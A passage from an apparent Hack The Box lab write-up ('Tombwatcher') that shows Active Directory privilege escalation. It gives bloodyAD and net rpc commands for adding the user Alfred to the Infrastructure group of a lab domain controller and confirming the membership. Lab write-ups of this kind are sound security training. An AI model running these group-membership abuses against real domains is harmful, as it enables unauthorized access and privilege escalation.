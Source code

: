 We now mark Alfred as owned and we have his credentials.

### Alfred → Infrastructure

![image.png](/assets/images/Tombwatcher_HTB/image%207.png)

As we can see from bloodhound as Alfred we can add ourselves to the Infrastructure group, we can do this by using BloodyAD.

[https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "10.10.11.72" -d "tombwatcher.htb" -u "alfred" -p "<...>" add groupMember "infrastructure" "alfred"
```

![image.png](/assets/images/Tombwatcher_HTB/image%208.png)

We can confirm that Alfred is added to the Infrastructure group by using →

```bash
net rpc group members "infrastructure" -U "tombwatcher.htb"/"alfred"%"<...>" -S "DC01.tombwatcher.htb"
```

![image.png](/assets/images/Tombwatcher_HTB/image%209.png)

Since now we own Infrastructure group as we have added Alfred to it.

### Infrastructure → Ansible_Dev$

![image.png](/assets/images/Tombwatcher_HTB/image%2010.png)
